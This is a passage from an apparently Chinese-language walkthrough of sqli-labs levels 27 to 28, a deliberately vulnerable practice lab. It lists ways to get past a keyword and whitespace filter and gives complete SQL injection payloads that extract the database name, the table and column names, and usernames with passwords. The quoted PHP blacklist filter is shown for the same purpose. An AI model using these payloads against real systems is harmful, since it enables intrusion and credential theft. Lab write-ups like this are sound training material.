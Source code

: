 ```php
return $id;
}
```

bypass

```
大小写绕过	seleCt UniOn
空格	/*%0a*/ 或者 %0a
```

payload

```
爆库:
0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/1,database(),2/*%0a*/||/*%0a*/'1'='1
爆表:
0'%0aUnIoN%0aSeLeCt%0a1,(SeLeCt%0agroup_concat(table_name)%0afrom%0ainformation_schema.tables%0awhere%0atable_schema='security'),3||'1
爆字段:
0'%0buniOn%0bsElEct%0b1,(group_concat(column_name)),3%0bfrom%0binformation_schema.columns%0bwhere%0btable_schema='security'%0bAnd%0btable_name='users'%0b%26%26%0b'1'='1
爆数据:
0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/1,(SeLeCt/*%0a*/group_concat(concat_ws('$',id,username,password))/*%0a*/from/*%0a*/users),3/*%0a*/||/*%0a*/'1'='1
```

### less 27a GET - Blind Based- All your UNION & SELECT belong to us

盲注，过滤了union和select

双引号进行闭合，bypass方式同上

### less 28 GET - Error Based- All your UNION & SELECT belong to us String-Single quote with parenthesis

基于错误的，有括号的单引号字符型，过滤了union和select等的注入

```php
function blacklist($id)
{
# 过滤 /*
$id= preg_replace('/[\/\*]/',"", $id);

# 过滤 - # 注释
$id= preg_replace('/[--]/',"", $id);
$id= preg_replace('/[#]/',"", $id);

# 过滤 空格 +
$id= preg_replace('/[ +]/',"", $id);.

# 过滤 union select /i 大小写都过滤
$id= preg_replace('/union\s+select/i',"", $id);
return $id;
}
```
